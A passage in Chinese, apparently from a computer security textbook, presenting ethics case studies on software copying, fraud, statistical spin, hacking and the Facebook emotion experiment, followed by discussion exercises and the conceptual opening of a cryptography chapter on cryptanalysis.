接下来，我们要考虑导致所描述情况的事件，以及哪些替代行动本可以防止负面结果。

*   Greg 在开始开发产品前、开发产品后、Cathy 解释产品属于 Star 后，本可以有哪些不同的做法？
*   Cathy 在被告知要告诉 Greg 其产品属于 Star 时、为避免管理层做出此决定时、去 Purple 工作后与 Greg 发生冲突时，本可以有哪些不同的做法？
*   Purple 在得知其拥有来自 Star（或来自 Greg）的产品时，本可以有哪些不同的做法？
*   Greg 在 Purple 与 Cathy 交谈后，Greg 和 Cathy 本可以有哪些不同的做法？
*   Star 本可以有哪些不同的做法，以防止 Greg 觉得他拥有其产品的所有权？Star 本可以有哪些不同的做法，以防止 Cathy 将产品带到 Purple？

## 情况 V：专有资源

在这个故事中，我们考虑访问专有或受限资源的问题。与前一个类似，这种情况涉及软件访问。该事件的焦点是软件开发者的权利与用户权利的对比，因此本案例研究关注确定合法的访问权利。

### 事件

Suzie 拥有一份 `G-Whiz` 的副本，这是一个她合法购买的专有软件包。该软件受版权保护，文档中包含一份许可协议，规定该软件仅供购买者使用。Suzie 邀请 Luis 来看看该软件，以确定它是否符合他的需求。Luis 来到 Suzie 的电脑前，她向他演示了该软件。他说他喜欢所看到的，但希望能进行更长时间的测试。

### 案例延伸

到目前为止，所有行为在伦理上都是合理的。接下来的步骤才是伦理责任产生的地方。请将以下每一步视为独立的；即在分析某一步时，不要假设其他任何步骤已经发生。

*   Suzie 提议为 Luis 复制磁盘以供使用。
*   Suzie 为 Luis 复制了磁盘供其使用，Luis 使用了一段时间。
*   Suzie 为 Luis 复制了磁盘供其使用；Luis 使用了一段时间，然后为自己购买了一份副本。
*   Suzie 为 Luis 复制了磁盘供其试用一晚，限制条件是他必须明天把磁盘还给她，且不得为自己复制。Luis 照做了。
*   Suzie 在相同限制下复制了磁盘，但 Luis 在归还给 Suzie 之前为自己复制了一份。
*   Suzie 在相同限制下复制了磁盘，Luis 为自己复制了一份，但随后购买了一份副本。
*   Suzie 在相同限制下复制了磁盘，但 Luis 没有归还。

对于这些延伸情况中的每一种，描述受影响的人员、涉及的伦理问题，以及哪些原则凌驾于其他原则之上。

## 情况 VI：欺诈

在之前的问题中，我们处理的是人们在合法或充其量有争议的情况下采取行动的情形。在本案中，我们考虑彻头彻尾的欺诈，这是非法的。然而，故事真正关注的是被要求做欺诈之事的人的行为。

### 事件

Alicia 在一家公司担任程序员。她的主管 Ed 告诉她编写一个程序，允许人们直接向公司的会计档案（“账本”）过账。Alicia 知道，通常影响账本的程序涉及多个步骤，所有步骤都必须平衡。Alicia 意识到，有了这个新程序，一个人就可以更改关键金额，并且无法追踪是谁在何时、出于什么理由做出了这些更改。

Alicia 向 Ed 提出了这些担忧，Ed 告诉她不必担心，她的工作只是按照他的规格编写程序。他说他知晓这些程序潜在的滥用可能，但他通过指出“定期会有数字被错误地录入账本，公司需要一种方法来更正不准确的数字”来为他的要求辩护。

### 延伸情况

首先，让我们探讨 Alicia 的选择。如果 Alicia 编写这个程序，她可能成为欺诈的帮凶。如果她向 Ed 的上级投诉，Ed 或上级可能会因她是麻烦制造者而训斥或解雇她。如果她拒绝编写程序，Ed 显然可以因她未能执行分配的任务而解雇她。我们甚至不知道该程序是否为欺诈目的而需要；Ed 提出了一个非欺诈性的解释。

她可能会编写该程序，但插入额外的代码，创建一个秘密日志，记录程序运行的时间、操作人员以及所做的更改。这个额外的文件可能提供欺诈的证据，但如果没有欺诈而 Ed 发现了秘密日志，也可能给 Alicia 招来麻烦。

此时，涉及的一些伦理问题如下。

*   程序员是否对其编写的程序负责？程序员是否对这些程序的结果负责？（在思考这个问题时，假设该程序用于计算机控制的医疗应用中的剂量调整，而 Ed 的请求是覆盖程序控制以导致致死剂量的方法。那时 Alicia 是否要对程序的结果负责？）
*   程序员仅仅是一个盲目遵循命令（分配的任务）的雇员吗？
*   雇员有义务承担多大程度的个人风险（如可能被解雇）来反对其认为不当的行为？
*   此处描述的这种操纵账本的程序是否曾有正当理由？如果有，在什么情况下是正当的？
*   可以对这类程序施加哪些控制以使其可接受？管理者有哪些合法方式要求员工编写此类程序？
*   如果 Alicia 自己设计并编写了这个程序，该情况中的伦理问题会改变吗？

### 分析

行为义务论者会说真理是好的。因此，如果 Alicia 认为该程序的目的是欺骗，编写它就不是一个好的行为。（如果目的是为了学习或欣赏优美的代码，那么编写它可能是合理的。）

功利主义视角的分析更有用。对 Alicia 来说，编写该程序带来了作为欺诈帮凶的潜在伤害，收获是与经理合作。她手中可能掌握一项勒索 Ed 的筹码，但 Ed 也可能反咬一口，说该程序是她的主意。权衡利弊，这个选项似乎有强烈的负面倾向。

不编写该程序，她可能面临的伤害是被解雇。然而，她通过“揭发”Ed 而获得潜在收益。这一选项似乎也不会给她带来多少好处。但欺诈行为会给股东、银行和其他无辜员工带来负面后果。不编写程序仅给 Alicia 带来个人伤害，这与前文所述伤害类似。因此，不编写程序似乎是更积极的选择。

还有一种可能性。该程序*可能*并非用于欺诈目的。如果是这样，则不存在伦理冲突。因此，Alicia 可以尝试确定 Ed 的动机是否涉及欺诈。

## 情况 VII：信息的准确性

对于下一个问题，我们考虑对信息准确性或完整性的责任。同样，这是数据库管理系统和其他访问控制机制所解决的问题。然而，与前几种情况一样，此处的问题是*授权*用户的访问，因此这些控制措施无法阻止访问。

### 事件

Emma 是一家研究所的研究员，Paul 是一名统计程序员。Emma 向一家谷物制造商撰写了一份资助申请，旨在证明一种名为“Raw Bits”的新麦片的营养价值。该制造商资助了 Emma 的研究。Emma 不是统计学家。她将所有数据交给 Paul，请他进行适当的分析并打印报告，以便她发送给制造商。不幸的是，Emma 收集的数据似乎反驳了“Raw Bits 具有营养”的说法，事实上，这些数据可能表明 Raw Bits 是有害的。

Paul 向 Emma 展示了他的分析结果，但也指出可以进行其他一些相关性分析，这会让 Raw Bits 显得更有利。Paul 戏谑地说道，他能利用统计学支持任何问题的任何一方。

### 伦理顾虑

显然，如果 Paul 篡改了本研究的数据值，他的行为就是不道德的。但他建议以支持两种或多种不同结论的方式分析正确数据，这是否更合乎道德？Paul 是否有义务同时呈现积极和消极的分析？Paul 是否应对他人使用其程序结果的方式负责？

如果 Emma 不懂统计分析，她接受 Paul 的积极结论合乎道德吗？接受消极结论呢？Emma 怀疑如果她将负面结果发送给制造商，他们只会另找研究人员做另一项研究。她怀疑如果她将两套结果都发送给制造商，他们只会公开积极的结果。什么伦理原则支持她发送两套数据？什么原则支持她只发送积极的一套？她还有什么其他行动方案？

## 情况 VIII：黑客攻击或破解的伦理

在网络空间中，什么行为是可以接受的？谁拥有或控制互联网？恶意或非恶意意图重要吗？法律问题涉及这些问题的答案，但正如我们之前指出的，法律和法院无法保护一切，我们也不应指望它们能做到。有人将调查计算机安全漏洞与利用漏洞区分开来，前者称为“白帽”黑客，后者称为“黑帽”黑客。正如 Cross [[CRO06]](#bib01.html#bib_134) 指出的，试图阻止人们学习是徒劳的，也不应尝试，这是为了社会的利益。关于知识的发布或传播存在合理的争论：如果只有少数人被允许知道如何制造复杂武器，世界会更安全吗？或者如何攻破某些安全系统？公开系统漏洞知识是否能更好地服务于公众？我们建议学生、研究人员、教职员工、技术人员，当然还有用户，共同参与对这一问题的深思熟虑的辩论，这是我们领域中最大的伦理问题之一。

在本研究中，我们考虑共享计算环境（如互联网）中的道德行为。这些问题类似于“外层空间中什么行为是可以接受的？”或“谁拥有海洋？”

Goli 是一名计算机安全顾问；她享受寻找和修复安全漏洞的挑战。她独立富有，无需工作，因此有大量空闲时间来测试系统的安全性。


在空闲时间，Goli 做三件事：首先，她积极攻击商业产品以寻找漏洞。她为自己开发的工具和方法感到自豪，并且在发现缺陷方面非常成功。其次，她探测互联网上可访问的系统，当发现脆弱站点时，会联系所有者提供修复服务。最后，她坚信高品质糕点，会在黄油用量不足的糕点店网站植入小程序以拖慢其性能。让我们按顺序审视这三个行为。

### 商业产品中的漏洞

我们已经描述了关于漏洞报告流程的当前争论。现在让我们探讨该争论中涉及的伦理问题。

显然，从基于规则的伦理理论来看，攻击者实施恶意攻击是错误的。恰当的理论似乎是后果论：发现并公开产品缺陷有助于或损害了谁？相关方包括攻击者、漏洞发现者、供应商和用户公众。发现缺陷的声望或功劳只是次要利益。供应商的利益（财务、公共关系）不如用户拥有安全产品的利益重要。但如何最好地服务于用户的利益？

- **完全披露** 有助于用户评估漏洞的严重性并采取适当的防护。但它也给攻击者提供了更多信息以构思攻击。过早的完全披露——在供应商准备好对策之前——实际上可能会损害用户，因为他们容易受到一种现已广为人知的攻击。
- **部分披露**——漏洞的大致性质但不包括详细的利用场景——可能会阻延攻击者。有人认为漏洞细节本就待人发掘；当供应商宣布针对产品中未指明缺陷的补丁时，攻击者会积极测试该产品并仔细研究补丁以试图确定漏洞。攻击者随后会通过地下网络向其他攻击者传播漏洞的完整描述，并开始攻击那些可能未应用供应商修复程序的用户。
- **不披露**。也许用户最适合一种方案，即定期发布新代码，有时修复安全漏洞，有时修复非安全相关问题，有时增加新功能。但如果缺乏重要性或紧迫性的概念，用户可能不会安装这些新代码。

### 搜寻漏洞与客户

搜寻漏洞涉及哪些伦理问题？同样，利益最大的一方是用户社区，以及搜寻可能带来的好处或危害。

从积极方面看，搜寻可能会发现漏洞。显然，Goli 为了获取工作而报告并不存在的漏洞是错误的，只报告部分漏洞以保留其他漏洞作为未来对客户的筹码也是错误的。

但假设 Goli 认真搜寻漏洞并将其报告给潜在客户。这难道不类似于加油站老板在你加油时建议你大灯不亮吗？并不完全是，你可能会说。大灯故障无需对汽车造成任何潜在损害即可被发现；探测漏洞可能会导致你的系统故障。

伦理问题似乎在于：潜在的益处与潜在的危害，哪一方更大？如果潜在的益处更强，它需要强到何种程度才能凌驾于危害风险之上？

这个问题也与表面上非恶意的漏洞探测这一常见做法有关：黑客在未经许可的情况下尝试访问你的系统，例如通过猜测密码。尤金·斯帕福德 [SPA98] 指出，许多入侵者只是想四处看看，并无破坏意图。正如 Sidebar 11-3 所讨论的，斯帕福德将这种看似无害的活动比作趁门未锁进入你的房子。即使没有恶意意图，入侵行为也可能构成严重罪行；在最坏的情况下，它造成了数百万美元的损失。尽管入侵者会受到严厉起诉和重罚，但入侵行为仍极具吸引力，尤其是对青少年而言。

***

#### Sidebar 11-3 入侵是一种良性行为吗？

许多人辩称入侵是可以接受的做法，因为缺乏保护意味着系统或数据的所有者并不真正重视它们。尤金·斯帕福德 [SPA98] 通过“进入房子”的类比质疑这一逻辑。

请考虑这样一种论点：不造成破坏、不做任何更改的入侵者，只是在了解计算机系统如何运行。“这些人大多数绝不会想到走在大街上，逐个试探每一扇门找一扇没锁的，然后翻搜屋内的抽屉或家具。然而，这些人似乎从不犹豫，反复尝试猜测不属于自己的账户密码，一旦进入系统，就浏览磁盘上的文件。”如果你知道自己的家被闯入过，即使没有造成损害，你会作何感想？

斯帕福德指出，闯入房屋或计算机系统构成非法侵入。以此为手段让安全漏洞更加显眼，是“专断且可耻的”。以未经授权的方式进入房屋或计算机系统，即使出于善意，也可能导致意想不到的后果。“许多系统曾被无知（或粗心）的入侵者意外损坏。”

我们不接受“黑客能成为优秀安全专家”这一论点。成为优秀安全专业人员有两个要素：知识和公信力。勤奋的探索者，可以在良性环境（如封闭的实验室网络）中尝试计算机入侵，学到的关于发现和利用漏洞的知识与黑客一样多。关键的区别在于信任。如果你雇佣一名黑客，你将始终挥之不去地担心：你的专家正在收集数据以攻击你或他人。在比较两个其他条件均等的候选人时，你会选择风险较低的那一个。在我们看来，转型为顾问的黑客是在试图利用其不道德行为的历史牟利。更长的讨论请参见 [PFL06b]。

***

#### 政治动机攻击

最后，考虑戈利干扰她反对行为的网站运行。我们特意将问题置于一个可能仅引起少数美食家和糕点师共鸣的情境中。我们可以将黄油爱好者的利益视为微不足道的少数派在微不足道的问题上的诉求。但你肯定能想到许多其他引发战争的问题。（关于政治动机计算机活动的真实案例，请参阅多萝西·丹宁的精彩文章 [DEN99a]。）

这一情境中伦理问题层出不穷。一些人会将（黄油）问题视为固有的善，但使用黄油是基本善良原则之一吗，如诚实、公平或不伤害他人？是否普遍认同使用黄油是好的？世界很可能会分裂为黄油拥护者（`x`%）、无限制糕点拥护者（`y`%）和不表态者（`z`%）。`x` 必须超过 `y` 多少，戈利的行为才算可接受？如果 `z` 的值很大怎么办？“最大多数人的最大幸福”要求在这三个百分比之间取得平衡，并衡量某种益处或损害。

使用黄油是否显而易见地好，以至于可以为伤害持不同意见者提供正当理由？谁受益，谁受损？如果只有昂贵的优质糕点可买，穷人买不起糕点，世界因此变得更好了吗？假设我们能确定世界上 99.9% 的人同意使用黄油是好事。这种绝对优势能否为凌驾于另外 0.1% 人的利益之上提供正当理由？

### 情境 IX：真实呈现

这个故事基于康奈尔大学和 Facebook 研究人员进行的一项真实实验。它引发了关于网络实体是否有义务呈现真相的问题，同时也引发了关于人类受试者实验的担忧。

#### 实验

2014 年 6 月，研究人员发表了一篇论文 [KRA14] 报告了这项研究：2011 年 1 月的一周内，研究人员操纵发送给 689,003 名 Facebook 用户的新闻动态。受试者被分为四组，其中一组接收删减了部分积极故事的新闻动态（“积极减少组”），一组接收删减了部分消极故事的新闻动态（“消极减少组”），另有两个对照组。研究作者发现，与对照组相比，积极减少组在与朋友通信时使用积极词汇的可能性较小，使用消极词汇的可能性较大；消极减少组则呈现相反结果，这在意料之中。在两种情况下，减少组与其对照组之间的差异都很小。

实验者将减少的新闻动态作为互联网的积极或消极力量，将积极或消极词汇的使用作为情绪指标。因此，粗略地说，研究人员发现更积极的互联网让人心情更愉悦，反之亦然，他们得出结论：“情绪可以在网络中传播，[但]操纵产生的效应量很小。”

#### 实验条件

参与研究的个人不知情（迄今为止也未被告知）。他们未被询问是否愿意参与。研究人员声称，减少动态组的参与者并未被剥夺新闻，因为他们仍可从朋友的新闻动态中找到被隐藏的故事（尽管这些受试者不知道自己错过了某些新闻，因此没有理由去搜索朋友的动态获取其他新闻）。实验仅持续了一周。用户评论中积极或消极词汇的计数完全由软件完成，因此研究人员无法确定任何个人甚至整个群体帖子的内容。

#### 知情同意

美国政府资助研究的一个不可协商的条件是知情同意和退出权，称为“通用规则”。实验受试者有权知道自己是实验的一部分，并可选择不参与。这项研究的参与者未被允许行使知情同意权。

Facebook 辩称，该实验符合其用户的服务条款，特别是因为所有用户的表达内容未向研究团队透露。因此，同意是不必要的。

作为一个伦理问题，参与者是否应该被告知并被要求同意？什么原则决定了是否需要征求同意？

##### Facebook 研究伦理

Facebook 是一家上市公司，该研究完全由其自有收入资助。是否应该要求其获得知情同意？为什么？上市公司在其自身身上进行研究的性质是否有任何限制？这些是法律限制还是道德限制？如果是道德限制，什么道德原则会要求设定限制？假设参与者已被告知实验情况；这会不会使结果产生偏差？

##### 伦理调查

涉及人类的实验会因对受试者的潜在负面影响而受到严格审查。在某些实验中（例如药物试验），危害的可能性显而易见；在其他实验中，危害，特别是心理或情感上的危害，可能不太可预测，也更难以察觉。

研究人员声称该实验持续时间短，且显示的效应微乎其微。

参与该研究的个人是否存在潜在危害？如果有，是什么样的危害？在某些情况下，可以认为对个人的危害风险被其他收益所抵消。这种情况在本案中是否成立？

##### 计算机伦理结论

在本伦理研究中，我们试图不去判定对错，甚至不将某些行为贴上“合乎伦理”或“不合乎伦理”的标签。（当我们沿着案例延伸的路径进行分析时，你可能以为我们在推行某种观点。相反，我们希望你思考事态可能如何发展的含义，以此磨练你的分析技能并检验你的分析。）本节的目的是激发你去体验和应对不断变化的情境。学会对伦理情境进行推理，与学习“正确”与“错误”并不完全相同。`right` 和 `wrong` 或 `good` 和 `bad` 等术语暗示了一套普世的价值观。然而我们知道，即使是广为接受的原则，也会在某些情况下被某些人所凌驾。例如，不杀人的原则在战争或死刑的情况下可能被违背。极少（如果有的话）价值观为所有人或在所有情况下所坚守。因此，我们引入这些材料的目的，是激发你识别并思考与计算机安全相关案例中涉及的伦理原则。只有通过识别和分析原则，你才能始终如一、深思熟虑且负责任地行动。

### 结论

在本章中，我们提供了适用于计算机安全的法律和伦理方面的信息。涉及计算机安全的法律正在迅速发展，因此当你阅读此处的某些观点时，它们可能已过时。尽管如此，了解法律在特定时间点的规定仍然大有裨益。

此外，本书的许多读者来自美国以外的国家。我们提及了一些其他国家的法律，但显然我们无法涵盖每个国家的所有法律。美国的法律当然不完美，但它们确实类似于其他国家的法律。因此，阅读本章将为你了解本国适用的法律提供一个合理的基础。

幸运的是，有一件事是普世的，那就是伦理。不伤害他人、以最小的代价实现最大的善、尊重他人的权利，这些原则适用于全世界。因此，我们对模型情境中伦理问题的分析应对所有读者都有效。

出于各种原因，一些读者不认为法律和伦理是计算机安全的保护手段。我们认为，作为公民，计算机安全专业人员需要了解法律的力量和局限性。如果法律不完善，我们的读者应致力于推动法律的完善。

本书的主题安排顺序是从用户向外延伸，从程序到操作系统和网络、大数据和云。然后我们探讨了贯穿计算机安全所有方面的四个问题：隐私、管理、法律和伦理。

在下一章中，我们将回到第 2 章介绍的主题：密码学。正如我们在前一章所述，密码学不是胆小者能驾驭的；它可能用到高度复杂和抽象的数学。我们不想在本书早期就过深地涉足该学科的数学，因为对许多读者和从业者而言，密码学是一种供使用的工具，而非一门供精通的学科。在下一章中，我们将稍微深入地探讨该主题，尽管同样远不足以使我们的读者成为专家级密码学家。然而，对于想要了解更深层次细节的读者，我们提供了第二轮的加密讲解。

### 练习

**1.** 列出软件漏洞报告争论中涉及的问题。技术问题有哪些？心理和社会学问题有哪些？管理问题有哪些？经济问题有哪些？伦理问题有哪些？选择一个你认为合适的漏洞报告流程，并解释为什么它比任何其他流程都能满足更多要求。

**2.** 列出软件可靠性（购买产品的正确运行）争论中涉及的问题。技术问题有哪些？心理/社会学问题有哪些？管理问题有哪些？经济问题有哪些？伦理问题有哪些？选择一个你认为合适的针对错误软件的补偿政策，并解释为什么它比任何其他流程都能满足更多要求。

**3.** 你会雇佣 Goli（事件 VIII 中的计算机安全顾问兼黑客）来保护你的计算机系统吗？如果她向你描述你系统中的漏洞并主动提出帮助修复，你会如何回应？请解释你的答案。

**4.** 为以下命题是否符合道德行为准备正反方论据。你和几个朋友决定分享 CD 中的音乐。你将一些复制到电脑上，然后刻录成相同的副本给朋友们。如果交换是在未知人员之间，通过类似 Napster 的匿名文件共享服务进行，论据会改变吗？

**5.** 为以下命题是否符合道德行为准备正反方论据。在另一个城市拜访朋友时，你打开笔记本电脑，无线网卡检测到一个名为 `siren-island` 的未加密接入点的强信号。你连接上它并在整个周末使用互联网接入。如果时间段不只是周末而是无限期（你不是拜访而是住在那里），且接入点名称显然与住在隔壁公寓的人有关，论据会改变吗？

#### 6. 网络漏洞扫描的伦理困境

你获取了一款网络漏洞扫描工具，并在你所在大学或企业的一个网络地址段上进行了测试。扫描器识别出一台名为 `PrinceHal` 的计算机存在许多严重漏洞。你推断出该机器的所有者。请解释以下行为的伦理含义：

(a) 告知所有者你的发现

(b) 告知你的本地管理员或安全官员你的发现

(c) 利用一个相对较小的漏洞向所有者展示暴露的严重性

(d) 利用一个相对较小的漏洞作为恶作剧，且不告知所有者

(e) 告知所有者你的发现，然后索要钱财以换取漏洞详情

(f) 利用漏洞获取机器控制权，下载并安装补丁、更改设置以修复所有漏洞，且从未告知任何人你的所作所为

#### 7. 研究生录取名单提前泄露的伦理论证

准备一个支持或反对以下行为符合伦理的论据。你申请研究生院入学。学校称将于 3 月 15 日通过发布编码后的录取和拒绝名单来通知申请者状态。3 月 9 日，你发现名单已经发布；你必须通过特定 URL 访问，而非点击按钮。你在一个广泛阅读的公告板上发布通知，告知他人这一泄露。

- 如果发现网站的日期是 2 月 9 日而非 3 月 9 日，论据会改变吗？
- 如果名单上的人员可单独识别，论据会改变吗？
- 如果名单是一门课程的成绩单（且人员可单独识别），论据会改变吗？
- 如果名单是肝移植候选人的有序名单（且人员可单独识别），论据会改变吗？

（注：准备好论据后，请阅读 [[SMI05]](#bib01.html#bib_573)。）

#### 8. ISP 跟踪 HTTP 交换的伦理论证

准备一个支持或反对以下行为符合伦理的论据。你的 ISP 在未告知任何人的情况下，开始跟踪其所有客户计算机的每一次 HTTP 交换。他们利用这些数据确定繁忙流量路由，以改进对搜索引擎等高频访问站点的服务。

- 如果目的是通过将数据出售给寻求确定不同站点受欢迎程度的广告商来获利，论据会改变吗？
- 如果目的是为政府分析提供流量记录，论据会改变吗？

#### 9. 博客隐私的伦理含义

你认识的某人有一个博客，虽然未直接链接在其主页上，但你通过简单的搜索查询找到了它。在博客中，她详细描述了与另一位你共同朋友的关系。请解释以下行为的伦理含义：

(a) 你阅读该博客

(b) 你告知那位共同朋友

(c) 你告知其他朋友

(d) 你在自己的主页上发布指向该博客的链接

#### 10. “红王”审查搜索引擎的伦理论证

红王决定他不喜欢蓝色，也不喜欢穿蓝色衣服或甚至提及其名字的人。作为全能者，他召集所有互联网搜索引擎，告知它们若想在其国家开展业务，今后必须从搜索结果中剔除任何包含该冒犯性词汇（他甚至不愿说出口）的条目。有人抗议并停止在该王国做生意，有人同意，还有人用同义词偷偷加入偶尔的蓝色引用，同时等待红王被彩虹女王取代。请为这三种 ISP 的反应准备支持或反对其伦理立场的论据。（准备好答案后，请阅读 [[THO06]](#bib01.html#bib_615)。）

#### 11. 选举中散布虚假信息的伦理论证

准备一个支持或反对以下行为符合伦理的论据。你正在竞选环卫局长。你的对手、现任局长深受喜爱；你知道竞争会很激烈。你编造了一个故事，指控对手开发出一种将垃圾变黄金的工艺，并将因接触城市垃圾而暴富。你知道这个故事不仅不真实，而且荒诞到几乎没人会相信。尽管如此，你仍匿名将其发布到网上，并赋予其一些有趣的关键词以助搜索引擎收录。果然，在选举前约一周，人们不仅发现了它，还疯狂转发，你的城镇邮件流量创新高，你大获全胜。多年后被问及此事，你耸耸肩说：“这是互联网：相信网上所读内容的人，活该得到他们应得的下场。”

#### 12. 篡改竞争对手临床试验数据的伦理论证

准备一个支持或反对以下行为符合伦理的论据。你是一名医学研究人员，正在开发一种严重疾病的新疗法。你的药物在有限试验中表现良好，但竞争对手的药物似乎更有效。一天，你发现了竞争对手的网络，惊讶地发现可以访问其内部机器，包括一台似乎存放着竞争对手药物试验结果的机器。你仔细修改了统计数据，使你的产品对比更具优势。

- 如果你修改的是自己的数据而非竞争对手的，论据会改变吗？
- 如果数据关乎蛇类迁徙模式，论据会改变吗？

---

## 12. 密码学详解

***

### 本章内容：

- 密码学、密码分析
- 对称加密：`DES`、`AES`、`RC2`、`RC4`、`RC5`、`RC6`
- 非对称加密：`RSA`
- 消息摘要：`SHA`
- 数字签名：椭圆曲线密码系统、`El Gamal`、`DSA/DSS`
- 量子密码学

***

用户手册描述了软件产品的接口和功能。如果你真的想了解一款软件是如何构建的、如何工作的、如何将其嵌入另一款软件，或其详细规格是什么，你需要另一种文档。然而，正常使用软件并不需要这些高级主题。

本章补充了第 2 章中介绍的加密讨论。在前面的章节中，我们将密码学作为一种工具介绍，并在后续章节中多次使用。对许多人来说，密码学的用户手册已足够。但对于想要或需要了解更多细节的人，我们在本章中对密码学进行了扩展阐述。

我们从密码分析简介开始。尽管全书我们都展示了技术如何失效或被导致失效，但我们尚未深入探讨克服密码学保护这一丰富主题。在描述失效类型后，我们将探讨知名加密算法和实现的潜在及实际缺陷。最后，我们将介绍密码学嵌入应用的实例：哈希码和数字签名。

你不应指望本章能让你领会密码学的细微之处，更别说设计自己的加密算法了。密码学是一个专门领域，依赖数学和理论计算机科学的多个分支，包括数论、有限域代数、计算复杂性和逻辑。读完此概览后，你仍需建立大量背景知识才能深入研究密码学。我们强烈警告你：不要学一点密码学就自以为能设计自己的安全密码系统。密码学领域充斥着甚至专家设计的失败方案，因此非专家最好“把驾驶交给专业人士”。例如，请参阅侧边栏 12-1 了解自创密码学的危害。

***

### 侧边栏 12-1 黑手党老大使用加密


2006 年 4 月，意大利黑手党家族的名义首领贝尔纳多·普罗文扎诺在西西里岛被捕。他留下了用西西里方言 `pizzini`（小纸条）写成的笔记。被捕时，他留下了大约 350 张这样的纸条。在 `pizzini` 中，他向心腹下达了关于特定人物的指令。

普罗文扎诺没有写人名，而是使用了一种凯撒密码的变体，用数字替换字母：A 用 4 代替，B 用 5 代替，……Z 用 24 代替（意大利字母表只有 21 个字母）。因此，在他的一张纸条中，字符串“……我遇到了 512151522 191212154，我们同意假期后见面……”，指的就是比努·里纳，他是普罗文扎诺的同伙，在普罗文扎诺被捕后不久也被捕了 [LOR06]。警方解密了普罗文扎诺被捕前发现的纸条，并利用其中的线索找到了这位通缉了 40 年的老大。

所有纸条似乎都使用相同的加密方式，一旦警方识别出规律，解密就变得微不足道。

我们给普罗文扎诺先生的建议：使用强加密算法，定期更换加密密钥，并聘请一位密码学家。

---

# 12.1 密码学

在本节中，我们将研究两个相关的事物：设计密码和破解密码。运动员通过研究防守动作来学习进攻招式，反之亦然。因此，我们将制造密码和破解密码的基础方面放在一起介绍。

## 密码分析

回顾第 2 章，密码分析是指研究一种加密算法、其实现、明文、密文以及任何其他可用信息，以试图破解加密保护的行为。

密码分析师可以尝试做以下六件事中的任何一件或全部：

- 破解（解密）单条消息。
- 识别加密消息中的模式，以便通过应用直接的解密算法来破解后续消息。
- 甚至不破解加密就推断出某些含义，例如注意到通信频率异常，或通过通信是长是短来判断某些情况。
- 轻松推导出密钥以破解一条消息，甚至可能破解后续消息。
- 发现发送方加密实现或使用环境中的弱点。
- 发现加密算法的通用弱点，而不一定需要截获任何消息。

除了这些攻击之外，还有一种方法值得一提，虽然它不直接涉及加密本身。攻击者可以尝试在加密前或解密后获取数据，例如通过窃听通信线路或修改程序或操作系统。虽然这不是一种密码学技术，但它确实强化了这样一个观点：必须预期攻击者会使用任何手段来获取所需数据。

### 仅有密文

破译者会利用他们能获得的任何东西。最容易获得的输入是单条消息的密文，但这也可能是最难解开的谜题。分析师寻找模式、相似性和不连续性，但由于可分析的数据很少，这些迹象难以捉摸。因此，破译者喜欢获取大量数据——许多消息——且使用相同方式加密，这种情况发生在发送方不经常更换加密密钥时。

### 明文和密文

更好的是获得一对明文-密文，因为这能让分析师看到发生了什么转换。

### 完整或部分明文

分析师可能有幸获得一条样本消息及其解密文。例如，外交部门可能截获了一条加密消息，怀疑是某份官方声明的文本。如果随后发布了官方声明（明文），截获者就同时拥有 `C` 和 `P`，只需推导出满足 `C = E(P)` 的 `E` 即可找到 `D`。在这种情况下，分析师试图利用**已知明文**攻击来寻找 `E`（或 `D`）。

分析师可能还拥有额外信息。例如，分析师可能知道该消息是从德国和奥地利之间的外交交流中截获的。根据该信息，分析师可能猜测消息中出现了波恩、维也纳和总理等词。或者，该消息可能是公司总裁发给销售团队的备忘录，备忘录会有特定格式（收件人：销售团队，发件人：总裁，主题：每周销售更新，日期：nn/nn/nn）。

在这些情况下，分析师可以使用所谓的**推定明文**分析。在完成部分解密后，分析师可能会找到已知消息与已解密部分吻合的地方，从而获得关于完整翻译的更多线索。

有时分析师运气好，能弄到加密算法或机器的副本，这种情况在侧边栏 12-2 中有描述。在这种情况下，分析师可以生成许多消息，通过机器运行它们，并查看结果。

---

**侧边栏 12-2 人为失误导致密码被破解**

Kahn [KAH96] 描述了恩尼格玛密码机的历史，这是一种德国人在二战中用来打乱消息、防止敌人理解的机械工具。恩尼格玛基于连接在一起并连接到打字机键盘的旋转轮（或转子）。加密一条消息的方法多到即使 1000 名分析师每分钟尝试 4 种不同的方法，全天候不间断工作，也需要 18 亿年才能测试完所有可能。

那么盟军是如何破解加密的？首先，他们利用了电报线路上每天关于当天事件的可能闲聊。通过猜测德国人会讨论某些地点或问题，盟军找到了可以与原始消息（明文）关联的打乱文本片段。接下来，他们集中精力研究空军的消息。

盟军指望空军信号兵不如陆军或海军信号兵训练有素，因此留意那些增加理解加密消息几率的失误。例如，空军信号兵经常“用女朋友的名字作为密钥设置，或者用第一条消息结束时的设置作为第二条消息的开始设置”。这种知识使盟军能够在不列颠战役期间确定空军的一些计划。

因此，当控制协议没有被仔细、完整地遵循时，复杂的技术也会失效。

---

### 任意明文的密文

分析师如果渗透了发送方的传输过程，就可以有利地强制按需加密并发送消息。这种攻击称为**选择明文**攻击。例如，分析师可以向数据库插入记录，并观察插入后统计数据的变化。线性规划有时能使此类分析师推断出数据库中应保密的数据。或者，分析师可能窃听网络线路，从而注意到向特定网络用户发送特定消息的效果。密码分析师可能是内部人员或有内部同事，他们可以导致某些交易反映在密文中；例如，内部人员可能转发因收到大订单而产生的消息。选择明文攻击对分析师有利。另一种理想情况是分析师强迫敌方将特定内容放入密文流中，这种情况在侧边栏 12-3 中有描述。

---

**侧边栏 12-3 隐含含义改变了二战进程**

1942 年春天，美国在太平洋战场上与日本作战。美国密码分析员已破译部分日本海军密码，但不理解日本用于描述特定地点的额外编码。美国截获的一条情报显示，“AF”将成为大规模进攻的目标。美国海军怀疑进攻目标是中途岛，但需要确证。

约瑟夫·罗切福特指挥官，珍珠港美国海军密码中心负责人，设计了一个巧妙计划来揭示“AF”的含义。他指示中途岛海军小组发送一条请求淡水的消息，称海水淡化厂受损。不久，美国截获一条日军电文，指出“AF”缺水——从而证实“AF”确实指代中途岛！[SEI01]

***

## 其他弱点

密码分析员的对手是人，而人可能匆忙、懒惰、粗心、天真或无知。人们有时未能在需要时更换加密密钥、以明文形式广播加密密钥，或以可预测的方式选择密钥。也就是说，算法可能很强且实现有效，但使用它的人在某些方面失误了，从而让密码文本暴露在被破解的风险中。人们有时会粗心大意地丢弃敏感材料，间谍可通过将已知密文与之匹配来获取明文。此外，人还可能被收买或胁迫。

不仅人会犯错，硬件和软件实现也会。有时硬件会以可预测的方式失效，例如磁盘读磁头失去磁道对准，导致本以为已擦除的敏感数据仍留在磁盘上。有时，看似微不足道的小事会削弱原本强大的方法。例如，在一次攻击中，分析师精确测量了执行加密的计算机的用电量，并从计算 1 与 0 的功耗差异中推导出了密钥。

